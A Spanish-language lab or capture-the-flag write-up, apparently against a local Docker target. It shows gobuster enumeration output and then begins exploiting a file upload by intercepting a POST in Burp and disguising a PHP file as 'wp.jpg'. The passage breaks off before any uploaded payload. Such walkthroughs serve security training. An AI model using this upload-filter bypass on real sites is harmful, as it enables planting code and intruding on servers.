    ```bash
[+] User Agent:              gobuster/3.6
[+] Extensions:              js,txt,png,jpg,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.jpg                 (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/.png                 (Status: 403) [Size: 275]
/.txt                 (Status: 403) [Size: 275]
/.js                  (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
/upload.php           (Status: 200) [Size: 0]
/Template             (Status: 403) [Size: 275]
/archivo.html         (Status: 200) [Size: 3380]
/Repository           (Status: 403) [Size: 275]
/.png                 (Status: 403) [Size: 275]
/.jpg                 (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/.js                  (Status: 403) [Size: 275]
/.txt                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/Tag                  (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

**Conclusiones:** 
+ Tenemos un **archivo.html** que usando **upload.php** nos permite subir archivos a **uploads**.
+ Podemos ver las subidas a **uploads** y seguramente se interpreten ya que interpreta php
+ Solo permite **jpg**

# EXPLOTACION

Con **burpsuite** interceptamos el envío de un php nuestro y le cambiamos la extensión a jpg: 

   ```bash

POST /themes/upload.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------25809358041701007273769940861
Content-Length: 473
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/themes/archivo.html
Cookie: JSESSIONID.1ffb2965=node01ntkucnv7iw0012wdyrveal5x4462.node0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------25809358041701007273769940861
Content-Disposition: form-data; name="file"; filename="wp.jpg"
Content-Type: application/x-php

   ```